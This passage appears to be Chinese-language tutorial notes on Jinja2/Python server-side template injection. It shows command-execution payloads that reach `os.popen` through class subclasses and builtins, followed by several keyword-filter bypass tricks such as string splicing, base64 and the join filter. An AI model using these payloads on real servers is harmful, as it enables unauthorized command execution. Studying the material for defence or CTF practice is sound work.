 命令执行找eval 或者\_\_import__,除去引用os模块还可以用其他可执行命令的模块 commands 等
```python
{ { [].__class__.__base__.__subclasses__()[对应数字].__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()")} }

{ { [].__class__.__base__.__subclasses__()[对应数字].__init__.__globals__['__builtins__'].__import__('os').popen('whoami').read()} }
```


# 二、 绕过

## ① 关键字绕过

```python
'X19jbGFzc19f'.decode('base64')
```

**字符串拼接绕过**
```python
'__buil'+'tins__'
```

**format函数**
```python
'fl{0}g'.format('a')
```

![YoyfG6.png](https://s1.ax1x.com/2020/05/20/YoyfG6.png)

截取字符
```python
request.__doc__[1]
```

利用python 切片操作
```python
"metsys"[::-1]
```

利用过滤器join
```python
('sys','tem')|join
```

利用过滤器 replace
```python
"sysxem"|replace('x','t')
```

利用引号

```python
'sy''stem'
```

利用`__add__`方法
